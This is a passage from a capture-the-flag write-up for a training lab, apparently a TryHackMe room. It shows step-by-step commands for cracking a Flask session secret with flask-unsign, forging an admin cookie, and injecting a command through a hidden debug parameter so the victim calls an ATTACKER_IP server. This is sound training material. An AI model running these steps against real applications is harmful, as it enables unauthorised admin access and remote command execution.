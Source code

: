 ```
$ flask-unsign -u -w numbers.txt -c 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZS-QwA.XHhtnXC-cb2iY4Puel5agPiva_U'
```

After a while we should have the key needed to sign our own JWT session cookie:

![7e33f6fe0aa09658276916944065e0bf.png](/resources/8bb9f7bbfb3540dabdc1eab047687c65.png)

Now we can create our session cookie using the decoded information from JWT.io. Using `flask-unsign` we use the flags `-s` for signing, `-c` to specify the cookie information and `--secret` with the secret key we cracked to sign the cookie:

```
$ flask-unsign -s -c "{'logged_in': True, 'username': 'admin'}" --secret 'secret_key_243495'
```

After pressing enter, we will get our new JWT session cookie, in my case it's `eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZS-pCw.ihpN01JJootftsSH7xpm_HPNNi0`.

In the browser in which the website is open, we can change our current JWT session cookie to this new JWT session cookie by accessing the developer's tools by pressing F12 (in FireFox). Under the "Storage" tab > Cookies > `http://intranet.thm:8080` we can change the `session` value by double-clicking on it and replace it with our new session cookie then press Enter to confirm the changes:

![369c9ed34ff0e8bae3aa7e121ed99967.png](/resources/1cf10f3aa14e417db303b93e317b452a.png)

Now, we should be able to access the admin page and get the next flag:

![3f13485d5e796576b0b2b0f1a440fd86.png](/resources/ac53576fd26c40909d6ea0efdab7ee38.png)

# Initial Foothold

### \[-] devops\@workshop

Checking the source code, "app.py" for the admin page, we will find a hidden debug function that can be accessed using POST requests to the admin page:

![8eae6ceac4cbb2d4e510a890baf07485.png](/resources/33eef8e692744f62bbfcae516dfad7d0.png)

To see if this is working, we can try making a request from the victim machine using [curl](https://linux.die.net/man/1/curl) to our attacker machine running a simple Python HTTP server.

On our attacker machine we start the HTTP server on port 8888 using `python3`:

```
$ python3 -m http.server 8888
```

In a new terminal, we use `curl` to access `http://intranet.thm:8080/admin` with the flags `-X POST` to make our request a POST request, `-H 'Cookie: session=<JWT_SESSION_COOKIE>'` to add the Cookie header and the JWT session cookie that we generated, and `-d 'debug=curl <ATTACKER_IP>'` to make the victim machine send a request to the attacker machine HTTP server using `curl`

```
$ curl 'http://intranet.thm:8080/admin' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZS-v5g.1iHgx7AEkXQwbJt-4WWQKAt_CqE' -d 'debug=curl <ATTACKER_IP>:8888'
```
